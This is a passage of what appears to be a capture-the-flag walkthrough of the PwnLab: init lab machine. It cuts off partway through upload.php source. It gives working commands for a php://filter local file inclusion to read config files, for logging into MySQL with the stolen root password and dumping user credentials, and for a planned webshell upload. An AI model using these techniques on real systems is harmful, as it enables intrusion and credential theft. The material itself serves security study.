`curl http://192.168.50.131/?page=php://filter/convert.base64-encode/resource=config`

{% img  /images/blog/vulhub/pwnlab_init/Selection_007.png   [title manually exploit [alt text]] %}

get config.php' base64 encoded content

`echo PD9waHANCiRzZXJ2ZXIJICA9ICJsb2NhbGhvc3QiOw0KJHVzZXJuYW1lID0gInJvb3QiOw0KJHBhc3N3b3JkID0gIkl9IOTkiOw0KJGRhdGFiYXNlID0gIlVzZXJzIjsNCj8+ | base64 --decode`

{% img  /images/blog/vulhub/pwnlab_init/Selection_008.png   [title manually exploit [alt text]] %}


get mysql username/password

connect mysql database:

`mysql -h 192.168.50.131 -u root -pH4u%QJ_H99`

show databases:

`mysql> show databases;`

{% img  /images/blog/vulhub/pwnlab_init/Selection_009.png   [title manually exploit [alt text]] %}


```
mysql> show tables;
mysql> use Users;
mysql> select * from users;
```

{% img  /images/blog/vulhub/pwnlab_init/Selection_010.png   [title manually exploit [alt text]] %}

these passwords are base64 encoded

```
kent | JWzXuBJJNy
mike | SIfdsTEn6I
kane | iSv5Ym2GRo
```

login as kane

{% img  /images/blog/vulhub/pwnlab_init/Selection_011.png   [title manually exploit [alt text]] %}

try to upload webshell, failed. only accept image.

{% img  /images/blog/vulhub/pwnlab_init/Selection_012.png   [title manually exploit [alt text]] %}

in order to find out which file extension do i need

I will get upload.php code

`curl http://192.168.50.131/?page=php://filter/convert.base64-encode/resource=upload`

{% img  /images/blog/vulhub/pwnlab_init/Selection_013.png   [title manually exploit [alt text]] %}

decode the content

```php
<?php
session_start();
if (!isset($_SESSION['user'])) { die('You must be log in.'); }
?>
<html>
	<body>
		<form action='' method='post' enctype='multipart/form-data'>
			<input type='file' name='file' id='file' />
			<input type='submit' name='submit' value='Upload'/>
		</form>
	</body>
</html>
<?php 
if(isset($_POST['submit'])) {
	if ($_FILES['file']['error'] <= 0) {
		$filename  = $_FILES['file']['name'];
```